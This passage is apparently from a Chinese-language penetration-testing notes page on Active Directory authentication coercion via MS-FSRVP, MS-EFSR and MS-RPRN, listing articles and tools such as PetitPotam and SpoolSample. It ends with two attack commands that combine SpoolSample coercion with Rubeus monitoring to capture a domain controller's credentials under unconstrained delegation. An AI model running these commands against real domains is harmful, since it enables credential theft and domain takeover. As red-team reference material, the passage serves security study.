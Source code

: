 ### MS-FSRVP abuse

> File Server Remote VSS Protocol

**相关文章**
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-fsrvp

**相关工具**
- [ShutdownRepo/ShadowCoerce](https://github.com/ShutdownRepo/ShadowCoerce) - MS-FSRVP coercion abuse PoC

---

### MS-EFSR abuse

> Microsoft's Encrypting File System Remote protocol

**相关文章**
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-efsr
- [Dropping Files on a Domain Controller Using CVE-2021-43893](https://www.rapid7.com/blog/post/2022/02/14/dropping-files-on-a-domain-controller-using-cve-2021-43893/)
    - [译文 | 某场景使用 EFSRPC 在域控制器上任意写文件到域沦陷](https://mp.weixin.qq.com/s/PHyUYvPBH4Ll-ahUgMDk0w)

**相关工具**
- [topotam/PetitPotam](https://github.com/topotam/PetitPotam)

---

### MS-RPRN abuse

> Microsoft’s Print Spooler

利用 Windows 打印系统远程协议（MS-RPRN）中的一种旧的但是默认启用的方法，在该方法中，域用户可以使用 MS-RPRN RpcRemoteFindFirstPrinterChangeNotification(Ex) 方法强制任何运行了 Spooler 服务的计算机以通过 Kerberos 或 NTLM 对攻击者选择的目标进行身份验证。

**相关文章**
- https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn

**相关工具**
- https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py
- [vletoux/SpoolerScanner](https://github.com/vletoux/SpoolerScanner) - Check if MS-RPRN is remotely available with powershell/c#
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py
- [leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)

**非约束委派+MS-RPRN abuse**

需要以域用户运行 SpoolSample
```
SpoolSample.exe DC DM
```

使 DC 强制访问 DM 认证，同时使用 rubeus 监听来自 DC 的 4624 登录日志
```
Rubeus.exe monitor /interval:1 /filteruser:dc$
```
